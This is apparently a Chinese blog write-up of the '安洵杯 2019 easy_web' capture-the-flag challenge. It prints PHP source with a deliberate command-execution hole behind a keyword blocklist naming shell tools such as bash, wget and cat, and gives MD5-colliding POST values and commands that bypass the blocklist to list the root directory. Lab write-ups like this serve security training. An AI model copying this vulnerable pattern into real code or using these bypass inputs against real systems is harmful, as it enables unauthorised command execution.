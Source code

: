 
## [安洵杯 2019]easy_web
**虽然我是萌新，但还是要说一句：真实**
![](https://img-blog.csdnimg.cn/2020031721074980.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
url上面有cmd，可能是命令执行，随后就看了wp
解密img的参数：**base64->base64->hex**
![](https://img-blog.csdnimg.cn/20200317211552283.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
为555.png，那么反推index.php,**hex->base64->base64**，最后再base64解码一次，即可得到index.php的源码
![](https://img-blog.csdnimg.cn/20200317212155842.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
?>
```
发现为md5强碰撞，我之前写php时写过的，直接套用
```powershell
a=%90%2F%0B%11%0D%1A2%C8%04%C5%F4%14%D7%8D%AA%02vC%1F%0Fs%B4%0D%06%24%BE%7EM%97%22%92%DFd%F1%CB%F9L%2B%3BA%CB%05Dy%166%7D0%94%7E4g%5E%F0%8DZ%3Fu%CA%A4%CD%F09D%27%E8L%D1Z%40%B0%A8g%A4%C4%DCM%7D%EE%0A%82%8E%85L%11%86%16i%D1Z%7EG%EC%07%FEo%26e%C6%15%F2%CC%07%CE%A8km7%98%B8%85%2CD%29%2C%18%05V%96+W%E4%A3%1C%D1%F3%15%CD
b=%90%2F%0B%11%0D%1A2%C8%04%C5%F4%14%D7%8D%AA%02vC%1F%8Fs%B4%0D%06%24%BE%7EM%97%22%92%DFd%F1%CB%F9L%2B%3BA%CB%05Dy%16%B6%7D0%94%7E4g%5E%F0%8DZ%3Fu%CA%24%CD%F09D%27%E8L%D1Z%40%B0%A8g%A4%C4%DCM%7D%EE%0A%82%8E%85%CC%11%86%16i%D1Z%7EG%EC%07%FEo%26e%C6%15%F2%CC%07%CE%A8km7%988%85%2CD%29%2C%18%05V%96+W%E4%A3%9C%D1%F3%15%CD
```
得到的二进制hash值是一样的
![](https://img-blog.csdnimg.cn/20200317212958516.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
先使用dir，发现没有什么有用的文件
![](https://img-blog.csdnimg.cn/20200317214531420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
查看根目录发现了flag，`dir%20/`**空格要url编码才可以**
![](https://img-blog.csdnimg.cn/20200317214717667.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)